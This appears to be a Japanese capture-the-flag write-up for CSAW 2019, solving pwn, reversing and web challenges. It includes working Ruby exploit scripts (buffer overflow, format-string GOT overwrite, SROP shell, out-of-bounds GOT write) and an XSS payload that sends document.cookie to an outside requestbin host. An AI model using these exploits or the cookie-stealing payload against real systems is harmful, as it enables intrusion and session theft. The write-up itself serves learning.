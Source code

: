 ```yaml
---
title: "Csaw2019 writeup"
date: 2019-09-16T09:50:28+09:00
draft: false
categories:
- writeup
---
```


## Misc

### mcgriddlev2

- 問題文にFLAGが記載されている
- **flag{W3lcome_7o_CSAW_QUALS_2019!}**

## Pwn 

### baby_boi (50pt)

- シンプルなBOFでIPが奪える問題
- libcのアドレスを出力してくれているので、配布されたlibcでオフセット求めてOne-Gadget に飛ばしてシェルを奪う
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1005
libc = ELF.new "./libc-2.27.so"
#libc = ELF.new "/lib/x86_64-linux-gnu/libc-2.29.so"
def z; $z; end
z.recvuntil("\n")
libc_printf = z.recvuntil("\n").match(/: (.+)/)[1].to_i(16)
libc_base = libc_printf - libc.symbols["printf"]
puts "%x" % libc_base
payload = "A" * 40
payload << p64(libc_base + 0x4f322)
z.sendline(payload)
z.interact
```
- **flag{baby_boi_dodooo_doo_doo_dooo}**

### GOT Milk? (50pt)

- 独自の共有オブジェクトとバイナリが配られる
- `set LD_LIBRARY_PATH ./` でカレントディレクトリの共有オブジェクトを見るようにする
- FSBがあるので、それを使ってGOT Overwriteする
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
require 'fsa'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1004
def z; $z; end
value = 0x89
fmt = FSA.new()
fmt[0x804a010] = value
payload = fmt.payload(7) # index of argument
puts z.recvuntil("? ")
z.sendline(payload)
puts z.recv
```
- **flag{y0u_g00000t_mi1k_4_M3!?}**

### small_boi (100pt)

- statically linked でstrippedな小さなバイナリが与えられる
- sig\_return システムコールを呼ぶようなraxの設定のされ方があるのと自明なBOFがあるので、Sigreturn ROP (SROP) で `execve("/bin/sh", 0, 0)` を実行する
  - SROPは、スタックの値を使ってsig\_return実行時にレジスタの値を代入する攻撃
  - これを使ってrdiやrsi、ripなどが設定できるため任意のシステムコールを呼べる
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1002
def z; $z; end
payload = "\x00" * 0x28
payload << p64(0x40017c)
payload << p64(0x0) * 4
payload << p64(0x0) * 8 # r8~r15
payload << p64(0x4001ca) # rdi = /bin/sh
payload << p64(0) # rsi
payload << p64(0) # rbp
payload << p64(0) # 
payload << p64(0) # 
payload << p64(0x3b) # rax = 0x3b 
payload << p64(0) # rcx
payload << p64(0)   # rsp
payload << p64(0x00400185) # rip = syscall
payload << p64(0x0) # eflags
payload << p16(0x33) # cs
payload << p16(0)
payload << p16(0)
payload << p16(0x2b) # ss
payload << p64(0x0) * 5 # err ~ union
payload << p64(0x0) * 8 # reserved[8]
z.sendline payload
z.interact
```
- **flag{sigrop_pop_pop_pop}**

### traveller

- 解けなかったのでwriteupを見た
- Off-by-oneがあるためHeap問題かと思ったら操作対象のインデックスの入力に負数が入力できるOOB問題
- 編集コマンドで、`-50` をするとfree@gotを書き換えられたのでこれを使って`cat_flag`関数に飛ばす
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'

$z = Sock.new "pwn.chal.csaw.io", 1003
#elf = ELF.new "./traveller"
#libc = ELF.new "./libc-2.23.so"

context.log_level = :debug
def z; $z; end

def add(dist, dest)
  z.sendline "1"
  z.recvuntil "> "
  z.sendline dist.to_s
  z.recvuntil ": "
  z.sendline dest
  z.recvuntil "> "
end

def change(dist, dest)
  z.sendline "2"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.send dest
  z.recvuntil "> "
end

def delete(dist)
  z.sendline "3"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.recvuntil "> "
end

def check(dist)
  z.sendline "4"
  z.recvuntil ">"
  z.sendline dist.to_s
  return z.recvuntil "> "
end

tmp = z.recvuntil "> "
stack_address = tmp.match(/.\n(.*) \n\n/)[1].to_i(16)

add(1, "AAAAAAAA")
change(-50, p64(0x4008b6))
puts delete(0)
```
- **flag{h0pe_y0u_3nj0y_ur_j0urn3y}**

## Rev

### Beleaf

- バイナリ中にFLAGに使われる文字列とインデックスの配列があるので、それを引っこ抜いてきて実行する
```ruby
#!/usr/bin/env ruby

idxs = [0x1, 0x9, 0x11, 0x27, 0x02, 0x00, 0x12, 0x03, 0x8, 0x12, 0x9, 0x12, 0x11, 0x1, 0x3, 0x13, 0x4, 0x3, 0x5, 0x15, 0x2e, 0xa, 0x3, 0xa, 0x12, 0x3, 0x1, 0x2e, 0x16, 0x2e, 0xa, 0x12, 0x6]

flag = [0x77, 0x66, 0x7b, 0x5f, 0x6e, 0x79, 0x7d, 0x20, 0x62, 0x6c, 0x72, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x61, 0x65, 0x69, 0x20, 0x6f, 0x74, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x67, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x75].map(&:chr)

idxs.each do |i|
  print flag[i]
end
```
- **flag{we_beleaf_in_your_re_future}**

## Web

### baby csp

- CSPが有効なXSS問題
  - `default-src 'self'; script-src 'self' *.google.com; connect-src *`
- 上記のCSPからJSONPエンドポイントでのXSSを使う
  - https://inside.pixiv.blog/kobo/5137
- FLAGは、Cookieにあるので、requestbin を使ってPOSTさせるJavaScriptを埋め込む
- `<script src="https://accounts.google.com/o/oauth2/revoke?callback=navigator.sendBeacon('http://requestbin.net/r/ugix54ug', document.cookie)"></script>`
- **flag{csp_will_solve_EVERYTHING}**
